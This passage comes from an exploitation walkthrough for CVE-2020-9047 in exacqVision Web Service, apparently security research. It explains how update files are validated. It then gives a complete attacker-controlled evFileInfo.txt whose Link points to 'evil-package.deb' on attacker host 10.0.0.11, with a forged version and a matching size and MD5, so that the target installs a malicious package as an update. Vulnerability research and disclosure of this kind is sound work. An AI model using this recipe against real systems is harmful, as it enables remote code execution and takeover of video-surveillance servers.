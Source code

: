 ```
```

The service checks that the information within the brackets match the service to be updated (`ev-WebService`), the operating system (`Linux`), and the system architecture (the lack of `x64` after the operating system implies `x86` in this context). The bracketed header additionally contains a version number (`20.03.2.0`). Under the bracketed header, the values of other items are checked before the update is qualified as valid.

*Note: For clarification, a valid bracketed header within the evFileInfo.txt file for a Linux x64 system would be: [ev-WebService-Linux-x64-20.03.2.0]*

The most important values to consider in the context of CVE-2020-9047 are `Version`, `Link`, `Filesize`, and `ChecksumHash`. The `Version` value must match the version specified in the bracketed header and the Debian package file referenced in the `Link` value must be the size (in bytes) specified as the `Filesize` value and also must match the MD5 checksum value specified as the `ChecksumHash` value. 

*Note: I haven't tested the importance/requirement of every value under a bracketed header, but it appears deleting the "Signed" and "Extension" values does not have an impact on the outcome of the package validity check. The "Status" value of "Recommended" or "Optional" determines whether the update will be selected automatically when checking for updates through exacqVision Web Service GUI. The name of the file specified as the "Link" value does not need to contain the system's architecture*

The attacker-controlled `evFileInfo.txt` which will be located at `http://10.0.0.11/evFileInfo.txt` (the location specifed as the "Updates URL" in step two) should be made to contain information that will qualify the attacker-controlled `evil-package.deb` package file as a valid exacqVision Web Service version update. This means that the `Link` value should reference the location of `evil-package.deb` and the `Filesize` and `ChecksumHash` values should be the filesize and MD5 checksum values of the `evil-package.deb` file.

*Note: The attacker controlled version of evFileInfo.txt does not need to be named evFileInfo.txt. Only the content of the file is important.*

The `evil-package.deb` file will be hosted/served alongside the attacker-controlled `evFileInfo.txt` file at `http://10.0.0.11/evil-package.deb` which will be set as the `Link` value. Valid update version values loosly take the form of `NN.NN.NN.NNNN`, so a version number can simply be made up for the bracketed header and the `Version` value. The filesize value and the MD5 checksum value of the `evil-package.deb` file can be found using the `ls -la` and `md5sum` commands.

```
┌─[root@parrot]─[~/demo]
└──╼ #ls -la evil-package.deb; md5sum evil-package.deb 
-rw-r--r-- 1 root root 818 Jun  2 12:37 evil-package.deb
8c7b7ca17f550381218e6530bbfab2e6  evil-package.deb
```

The content of the attacker-controlled `evFileInfo.txt` which will be located at `http://10.0.0.11/evFileInfo.txt` is shown below.

```
[ev-WebService-Linux-99.99.99.9999]
Version=99.99.99.9999
Date=12-31-9999
Downloadable=True
Link=http://10.0.0.11/evil-package.deb
Package=Linux
Product=webservice
Filesize=818
ChecksumType=md5
ChecksumHash=8c7b7ca17f550381218e6530bbfab2e6
Status=Recommended
Extension=deb
```
